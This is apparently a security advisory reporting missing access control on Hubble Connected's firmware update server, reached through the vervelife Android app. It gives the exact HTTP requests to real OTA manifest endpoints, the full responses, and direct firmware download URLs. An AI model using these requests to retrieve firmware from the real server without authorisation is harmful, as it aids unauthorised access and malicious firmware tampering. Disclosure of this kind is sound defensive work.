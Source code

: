 # Vulnerability Report - com.hubbleconnected.vervelife- Incorrect Access Control

**Product:** `com.hubbleconnected.vervelife` 

**Vendor:** [Hubble Connected](https://hubbleconnected.com/)

**Version:** 2.00.81

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.hubbleconnected.vervelife` , developed by **Hubble Connected**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `getOTAUrl` method's return value in the `DrakePlusProduct` class provides the necessary URL and other information required for the HTTPS request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003205935720](https://s2.loli.net/2024/10/03/b3ZGTvMKeHmFyEV.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://ota.hubble.in/verve/verve_manifest.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: ota.hubble.in
   Content-Length: 0
   Content-Type: text/plain
   
   ```

   ```
   GET https://ota.hubble.in/verve/verve_manifest_plus.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: ota.hubble.in
   Content-Length: 0
   Content-Type: text/plain
   ```

   

   > Response:

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 12:57:18 GMT
   Content-Type: application/json
   Content-Length: 2141
   Connection: keep-alive
   Server: nginx/1.12.1
   Last-Modified: Thu, 18 Aug 2016 05:50:16 GMT
   ETag: "57b54c98-85d"
   Accept-Ranges: bytes
   
   {
       "product": {
           "name": "VerveOnes",
           "package": [
               {
                   "name": "NA",
                   "supported_languages": [
                       "enUS",
                       "frCA",
                       "esES",
                       "enGB",
                       "frFR",
                       "deDE",
                       "itIT"
                   ],
                   "objects": [
                       {
                           "file": "drake_headset_code_rel_v00.43.img",
                           "type": 1,
                           "version": "00.43",
   						"url": "https://ota.hubble.in/verve/v0.43/drake_headset_code_rel_v00.43.img",
                           "md5": "0512a8c15f34946eda55c850c4e3b173"
                       },
                       {
                           "file": "drake_headset_image_rel_na_v00.02.img",
                           "type": 2,
                           "version": "00.02",
   						"url": "https://ota.hubble.in/verve/v0.43/drake_headset_image_rel_na_v00.02.img",
                           "md5": "7ab4fd61e1342fe02b018df213a1e9af"
                       }
                   ]
               },
               {
                   "name": "RW",
                   "supported_languages": [
                       "enGB",
                       "zhCN",
                       "jaJP"
                   ],
                   "objects": [
                       {
                           "file": "drake_headset_code_rel_v00.43.img",
                           "type": 1,
                           "version": "00.43",
   						"url": "https://ota.hubble.in/verve/v0.43/drake_headset_code_rel_v00.43.img",
                           "md5": "0512a8c15f34946eda55c850c4e3b173"
                       },
                       {
                           "file": "drake_headset_image_rel_rw_v00.02.img",
                           "type": 2,
                           "version": "00.02",
   						"url": "https://ota.hubble.in/verve/v0.43/drake_headset_image_rel_rw_v00.02.img",
                           "md5": "e893c1508aea2b7686eed792b202cdd8"
                       }
                   ]
               }
           ]
       }
   }
   
   ```

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 12:57:46 GMT
   Content-Type: application/json
   Content-Length: 2176
   Connection: keep-alive
   Server: nginx/1.12.1
   Last-Modified: Thu, 18 Aug 2016 05:50:25 GMT
   ETag: "57b54ca1-880"
   Accept-Ranges: bytes
   
   {
       "product": {
           "name": "VerveOnes+",
           "package": [
               {
                   "name": "NA",
                   "supported_languages": [
                       "enUS",
                       "frCA",
                       "esES",
                       "enGB",
                       "frFR",
                       "deDE",
                       "itIT"
                   ],
                   "objects": [
                       {
                           "file": "drake_headset_code_rel_v00.43_plus.img",
                           "type": 1,
                           "version": "00.43",
   						"url": "https://ota.hubble.in/verve/v0.43plus/drake_headset_code_rel_v00.43_plus.img",
                           "md5": "f96d11e0a7c1681b3529ce8a0aa9ec07"
                       },
                       {
                           "file": "drake_headset_image_rel_na_v00.02.img",
                           "type": 2,
                           "version": "00.02",
   						"url": "https://ota.hubble.in/verve/v0.43plus/drake_headset_image_rel_na_v00.02.img",
                           "md5": "7ab4fd61e1342fe02b018df213a1e9af"
                       }
                   ]
               },
               {
                   "name": "RW",
                   "supported_languages": [
                       "enGB",
                       "zhCN",
                       "jaJP"
                   ],
                   "objects": [
                       {
                           "file": "drake_headset_code_rel_v00.43_plus.img",
                           "type": 1,
                           "version": "00.43",
   						"url": "https://ota.hubble.in/verve/v0.43plus/drake_headset_code_rel_v00.43_plus.img",
                           "md5": "f96d11e0a7c1681b3529ce8a0aa9ec07"
                       },
                       {
                           "file": "drake_headset_image_rel_rw_v00.02.img",
                           "type": 2,
                           "version": "00.02",
   						"url": "https://ota.hubble.in/verve/v0.43plus/drake_headset_image_rel_rw_v00.02.img",
                           "md5": "e893c1508aea2b7686eed792b202cdd8"
                       }
                   ]
               }
           ]
       }
   }
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003211449247](https://s2.loli.net/2024/10/03/SLBO4mqsT5xJeIH.png)

   In total, we successfully downloaded **4 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.